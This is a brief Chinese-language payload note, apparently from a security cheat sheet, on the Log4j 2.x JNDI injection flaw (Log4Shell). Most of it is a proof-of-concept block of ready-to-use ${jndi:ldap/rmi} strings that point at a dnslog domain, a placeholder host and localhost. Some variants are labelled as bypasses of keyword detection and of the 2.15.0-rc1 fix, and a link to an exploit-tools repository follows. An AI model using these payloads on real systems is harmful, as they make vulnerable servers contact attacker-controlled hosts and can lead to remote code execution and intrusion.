 - 对 Apache Log4j 2.x <= 2.15.0-rc1 有效
- ```
  poc:
  ${jndi:ldap://zxyjct.dnslog.cn/exp}
  
  ${${lower:j}ndi:${lower:l}dap://hk.xxx.xyz:3001/ } # 关键词检测绕过
  ${${::-j}ndi:${::-l}dap://hk.xxx.xyz:3001/} # 关键词检测绕过
  ${jndi:ldap://zxyjct.dnslog.cn/ exp} # RC1绕过/加个空格
  ${jndi:rmi://127.0.0.1:1099/ruwsfb}
  ```
- [文档](https://www.docs4dev.com/docs/zh/log4j2/2.x/all/manual-lookups.html)
- [测试工具](https://github.com/ilsubyeega/log4j2-exploits)
-